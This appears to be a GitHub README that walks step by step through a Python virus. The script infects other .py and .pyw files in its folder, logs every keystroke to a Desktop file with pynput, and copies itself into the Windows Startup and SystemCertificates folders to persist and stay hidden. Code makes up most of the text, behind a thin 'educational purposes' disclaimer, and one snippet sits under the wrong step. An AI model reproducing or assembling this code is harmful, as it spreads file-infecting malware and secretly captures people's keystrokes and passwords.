 THIS IS FOR EDUCATIONAL PERPOSES ONLY, IF YOU INDEND ON USING THIS FOR THE WRONG PURPOSE I WILL NOT BE RESPONSIBlE FOR YOUR ACTIONS, YOU WILL BE DOING SO AT YOUR OWN RISK.

You need pynput for this to run, if you do not have it installed, run: `pip install pynput`


Here’s a detailed breakdown of what my code does, step by step:

1. `Virus Structure Definition`
The script starts by defining the sections of the code that represent the "Virus":
```python
# Virus Beginning
# ...
# Virus End
```
The code that lies between these markers is the part that will replicate itself into other Python files.

2. `Reading Itself`
The code reads its own file to identify and extract the "Virus" portion:
```python
with open(sys.argv[0], 'r') as f:
    lines = f.readlines()
```
This reads the entire script into memory, line by line.


3. `Extracting Virus Code`
The script uses a loop to determine which lines belong to the "Virus":
```python
virus_area = False
for line in lines:
    if line == '# Virus Beginning\n':
        virus_area = True
    if virus_area:
        code.append(line)
```
It sets a flag when it finds the beginning of the virus code and appends all subsequent lines until it finds the end marker.

4. `Finding Other Python Scripts`
The script uses the glob module to identify other Python scripts in the current directory:
```python
python_scripts = glob.glob('*.py') + glob.glob('*.pyw')

    if line == '# Virus End\n':
        break
```
This creates a list of all .py and .pyw files in the same directory.

5. `Checking for Infections`
For each Python script found, the code checks if it is already infected by looking for the virus markers:
```python
for script in python_scripts:
    with open(script, 'r') as f:
        script_code = f.readlines()
    infected = False
    for line in script_code:
        if line == '# Virus Beginning\n':
            infected = True
            break
```
If the script contains # Virus Beginning, it is marked as infected.

6. `Inserting the Virus Code`
If a script is not already infected, the code appends the extracted virus code to it:
```python
if not infected:
    final_code = []
    final_code.extend(code)
    final_code.append('\n')
    final_code.extend(script_code)

    with open(script, 'w') as f:
        f.writelines(final_code)

```
The new file is rewritten to include the virus code at the top.

7. `Keylogging Setup`
The script sets up a keylogger using the pynput library:
```python
from pynput.keyboard import Listener
```
This allows it to monitor and log keystrokes.

8. `Logging Configuration`
The script configures a logging system to log keystrokes:
```python
username = os.getlogin()
logging_directory = f"/Users/{username}/Desktop"
logging.basicConfig(filename=f"{logging_directory}/mylog.txt", level=logging.DEBUG, format="%(asctime)s: %(message)s")
```
It creates a log file named mylog.txt on the user's Desktop, where it will record the keystrokes.

9. `Key Handler Function`
The function key_handler is defined to log the keystrokes:
```python
def key_handler(key):
    logging.info(key)
```

10. `Starting the Keylogger`
Finally, the keylogger starts listening for keystrokes:
```python
with Listener(on_press=key_handler) as listener:
    listener.join()
```
The listener runs in the background, logging every key pressed until the program is terminated.

11. `Self-Copying`
Additionally, the script copies itself into the Windows Startup folder AND the SystemCertificates folder:
```python
copyfile(sys.argv[0], f'C:/Users/{username}/AppData/Roaming/Microsoft/Start Menu/Startup/main.py')
copyfile(sys.argv[0], f'C:/Users/{username}/AppData/Roaming/Microsoft/SystemCertificates/My/main.py')
```
This ensures that the script runs automatically each time the user logs into their account, and that it's also hidden in system files

`Summary`
In essence, this script is designed to:
Replicate itself into other Python scripts within its directory.
Log keystrokes to a text file.
Copy itself to the Windows Startup folder and System Certificates folder for persistence.


Enjoy :)
